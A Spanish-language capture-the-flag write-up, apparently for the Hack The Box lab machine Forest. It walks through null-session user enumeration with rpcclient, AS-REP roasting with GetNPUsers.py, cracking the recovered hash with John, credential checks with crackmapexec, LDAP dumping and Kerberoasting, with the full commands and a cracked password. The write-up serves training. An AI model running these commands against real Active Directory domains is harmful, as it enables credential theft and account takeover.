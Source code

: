 Como aqui ya tenemos un listado de usuarios validos, lanzamos un ataque asproarst.

## Vulnerability Assessment {-}

### Asproasting Attack {-}

Los ataques Asproasting se pueden manejar con la utilidad `GetNPUsers.py`

```bash
cd content
rpcclient -U "" 10.10.10.161 -N -c "enumdomusers" 
rpcclient -U "" 10.10.10.161 -N -c "enumdomusers" | grep -oP '\[.*?\]' 
rpcclient -U "" 10.10.10.161 -N -c "enumdomusers" | grep -oP '\[.*?\]' | grep "0x" -v 
rpcclient -U "" 10.10.10.161 -N -c "enumdomusers" | grep -oP '\[.*?\]' | grep "0x" -v | tr -d '[]'
rpcclient -U "" 10.10.10.161 -N -c "enumdomusers" | grep -oP '\[.*?\]' | grep "0x" -v | tr -d '[]' > users.txt
GetNPUsers.py htb.local/ -no-pass -userfile users.txt 2>/dev/null
```

Aqui vemos el TGT del usuario **svc-alfresco**. Copiamos todo el hash del usuario svc-alfresco en un fichero llamado hash
y lo crackeamos con John


### Crackeando el hash con John {-}

```bash
john -wordlists=/usr/share/wordlists/rockyou.txt hash
```

Aqui encontramos su contraseña. Ya podemos effectuar un Kerberoasting attack. Pero primero, como siempre, credenciales encontradas son 
credenciales que checkeamos con crackmapexec

```bash
crackmapexec smb 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
```

### LDAP enumeracion con ldapdomaindump {-}

Esta utilidad nos permitte recuperar en formato html las informaciones del servicio LDAP.

```bash
cd /var/www/html
ldapdomaindump -u 'htb.local/svc-alfresco' -p 's3rvice' 10.10.10.161
service apache2 start
```

y podemos mirarlo con firefox en localhost

### Kereroasting attack {-}

Los ataques Kereroasting se pueden manejar con la utilidad `GetUserSPNs.py`

```bash
GetUserSPNs.py htb.local/svc-alfresco:s3rvice@10.10.10.161 -request -dc-ip 10.10.10.161
```
